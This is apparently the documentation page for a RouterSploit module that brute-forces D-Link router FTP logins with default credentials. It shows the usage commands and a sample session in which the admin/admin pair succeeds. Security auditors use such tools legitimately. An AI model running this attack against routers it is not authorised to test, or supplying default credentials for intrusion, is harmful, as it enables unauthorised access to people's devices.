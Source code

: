 ## Description

Module performs dictionary attack with default credentials against D-Link Router FTP service.
If valid credentials are found, they are displayed to the user.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use creds/routers/dlink/ftp_default_creds`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If valid credentials are found, they are displayed to the user.

## Scenarios

```
rsf > use creds/routers/dlink/ftp_default_creds
rsf (D-Link Router Default FTP Creds) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (D-Link Router Default FTP Creds) > run
[*] Running module...
[*] Target exposes FTP service
[*] Starting attack against FTP service
[*] thread-0 thread is starting...
[-] Authentication Failed - Username: 'admin' Password: '12345'
[-] Authentication Failed - Username: 'admin' Password: '123456'
[-] Authentication Failed - Username: 'Admin' Password: '12345'
[-] Authentication Failed - Username: 'Admin' Password: '123456'
[+] Authenticated Succeed - Username: 'admin' Password: 'admin'
[*] thread-0 thread is terminated.
[*] Elapsed time: 0.06290411949157715 seconds
[+] Credentials found!

   Target          Port     Service     Username     Password
   ------          ----     -------     --------     --------
   192.168.1.1     21       ftp         admin        admin 

```
